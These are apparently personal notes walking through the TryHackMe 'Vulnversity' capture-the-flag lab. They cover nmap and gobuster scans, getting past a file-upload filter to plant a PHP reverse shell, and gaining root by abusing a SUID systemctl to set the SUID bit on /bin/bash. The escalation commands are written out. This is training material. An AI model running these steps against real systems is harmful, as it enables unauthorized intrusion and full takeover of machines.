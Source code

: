  <div align = "center"> 22-Sep-2021, Wednesday<br>
  Notes by: Mayank Kumar Prajapati<br>
  Machine Name: Vulnversity<br>
  URL: https://tryhackme.com/room/vulnversity
</div>
<br><br>

***
**Phase 1: Reconnaissance**
***
`nmap -sV 10.10.227.240`

Scan the box, how many ports are open.\
6

What version of the squid proxy is running on the machine?\
3.5.12

How many ports will nmap scan if the flag -p-400 was used?\
400

Using the nmap flag -n what will it not resolve?\
DNS

What is the most likely operating system this machine is running?\
Ubuntu

What port is the web server running on?\
3333

***
 **Phase 2:  Locating directories using GoBuster**
 ***
`apt install gobuster`\
`gobuster dir -u http://10.10.227.240:3333/ -w /usr/share/wordlists/dirbusterdirectory-list-2.3-medium.txt`\
`gobuster dir -u http://10.10.227.240:3333/internal -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`

What is the directory that has an upload form page?\
/internal/

***
**Phase 3: Compromise the webserver**
***

Try upload a few file types to the server, what common extension seems to be blocked?\
.php

Which extension seems to be allowed to upload php reverse shell?\
.pthml \
You can try it out using [extensionChecker.py](https://github.com/mayank-s16/Tryhackme-machines-notes/blob/main/vulnversity/extensionChecker.py "Extension Checker Script") file that is uploaded in thie repo.<br>

What is the name of the user who manages the webserver?\
bill

What is the user flag?\
Find it inside bill's home directory.


***
**Phase 4: Privilege Escalation**
***
In Linux, SUID (set owner userId upon execution) is a special type of file permission given to a file. 
SUID gives temporary permissions to a user to run the program/file with the permission of the file owner (rather than the user who runs it).
For example, the binary file to change your password has the SUID bit set on it (`/usr/bin/passwd`).
This is because to change your password, it will need to write to the shadowers file that you do not have access to, root does, so it has root privileges to make the right changes.<br>
Note down the below command for finding out files whose user bit is set.<br>
`find / -perm -u=s -type f 2>/dev/null`

On the system, search for all SUID files. What file stands out?\
/bin/systemctl

Click [here](https://gtfobins.github.io/gtfobins/systemctl/#suid "GTFOBins SUID for systemctl") to find out privilege escalation using `systemctl` SUID.

Note** You can also set SUID bit of /bin/bash using systemctl GTFObins url. Modify the command part as
> TF=$(mktemp).service\
> echo '[Service]\
> Type=oneshot\
> ExecStart=/bin/sh -c "chmod +s /bin/bash"\
> [Install]\
> WantedBy=multi-user.target' > $TF\
> /bin/systemctl link $TF\
> /bin/systemctl enable --now $TF

After executing the above commands one by one it will set the uid bit of \bin\bash.
To confirm this thing type the following command.
> ls -l \bin\bash\

Now you can become root.
> \bin\bash -p\
> whoami
---
